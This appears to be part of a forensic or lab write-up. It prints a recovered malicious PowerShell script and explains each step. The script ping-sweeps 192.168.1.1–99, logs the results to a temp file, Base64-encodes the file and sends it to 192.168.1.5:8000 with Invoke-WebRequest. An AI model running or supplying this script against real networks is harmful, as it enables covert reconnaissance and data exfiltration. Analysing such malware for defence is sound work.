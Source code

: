 ### Recovered Malicious PowerShell Script


```powershell

$startIP = "192.168.1.1"
$endIP = "192.168.1.99"
$outputFile = "$env:UserProfile\AppData\Local\Temp\BL4356.txt"

$start = [System.Net.IPAddress]::Parse($startIP).GetAddressBytes()[3]
$end = [System.Net.IPAddress]::Parse($endIP).GetAddressBytes()[3]

for ($current = $start; $current -le $end; $current++) {
    $currentIP = "$($startIP.Substring(0, $startIP.LastIndexOf('.') + 1))$current"
    $result = Test-Connection -ComputerName $currentIP -Count 1 -ErrorAction SilentlyContinue

    if ($result -ne $null) {
        Write-Host "Host $currentIP is online."
        "Host $currentIP is online." | Out-File -Append -FilePath $outputFile
    } else {
        Write-Host "Host $currentIP is offline."
        "Host $currentIP is offline." | Out-File -Append -FilePath $outputFile
    }
}

Write-Host "Scan results saved to $outputFile"
$var = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes($outputFile))
Invoke-WebRequest -Uri "http://192.168.1.5:8000/$var" -Method GET


```

### Analysis of the Malicious Script
This PowerShell script executes the following steps:
1. **Defines a range of IP addresses (`192.168.1.1` to `192.168.1.99`)** to scan for active hosts.
2. **Creates an output file (`BL4356.txt`)** where scan results are stored.
3. **Pings each IP address in the range** using `Test-Connection`.
4. **Records whether each host is online or offline** in the output file.
5. **Encodes the contents of the output file in Base64**.
6. **Sends the encoded data to an external server (`http://192.168.1.5:8000/`)** for exfiltration using an HTTP GET request.
_The following image shows the contents of the file **BL4356.txt**. This file stores the results of the network scan performed by the PowerShell script. Each line records whether a specific host within the **192.168.1.x** subnet is online or offline._